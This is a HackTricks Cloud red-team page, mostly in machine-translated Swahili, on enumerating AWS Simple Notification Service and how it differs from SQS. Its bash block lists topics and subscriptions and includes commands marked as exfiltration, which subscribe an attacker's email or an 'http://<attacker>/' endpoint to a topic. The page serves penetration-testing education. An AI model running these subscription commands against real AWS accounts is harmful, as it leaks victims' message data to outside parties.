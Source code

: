 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) inafafanuliwa kama **huduma ya ujumbe inayosimamiwa kikamilifu**. Inasaidia aina za mawasiliano **kutoka programu hadi programu** (A2A) na **kutoka programu hadi mtu** (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mekanismu za kuchapisha/kujiunga (pub/sub)**. Mekanismu hizi zinaanzisha **mada**, muhimu kwa kuwezesha ujumbe wa **kuwasilisha, wa push, wa wengi kwa wengi**. Kipengele hiki ni cha faida sana katika hali zinazohusisha mifumo iliyosambazwa, huduma ndogo, na usanifu wa serverless unaotegemea matukio. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa ufanisi kwa **mifumo mbalimbali ya wapokeaji**, ikiruhusu muundo wa ujumbe wa fanout.

### **Difference with SQS**

**SQS** ni huduma ya **mifumo ya foleni** inayoruhusu mawasiliano ya pointi hadi pointi, ikihakikisha kwamba ujumbe unachakatwa na **mpokeaji mmoja**. Inatoa **usambazaji angalau mara moja**, inasaidia foleni za kawaida na FIFO, na inaruhusu uhifadhi wa ujumbe kwa ajili ya kurudiwa na usindikaji wa kucheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma inayotegemea **kuchapisha/kujiunga**, ikiruhusu mawasiliano **moja hadi wengi** kwa kutangaza ujumbe kwa **wapokeaji wengi** kwa wakati mmoja. Inasaidia **mipokezi mbalimbali kama barua pepe, SMS, kazi za Lambda, na HTTP/HTTPS**, na inatoa mekanismu za kuchuja kwa usambazaji wa ujumbe wa lengo.\
Ingawa huduma zote mbili zinawezesha kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza muundo wa mawasiliano unaotegemea matukio na fan-out.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Kumbuka kwamba ikiwa **mada ni ya aina ya FIFO**, ni wanachama pekee wanaotumia itifaki **SQS** wanaweza kutumika (HTTP au HTTPS haiwezi kutumika).

Pia, hata kama `--topic-arn` ina eneo hakikisha unataja eneo sahihi katika **`--region`** au utapata kosa linaloashiria kwamba huna ufaccess lakini tatizo ni eneo.
{% endhint %}

#### Upatikanaji Usio na Uthibitisho

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Kuinua Haki

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Kudumu

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Marejeleo

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
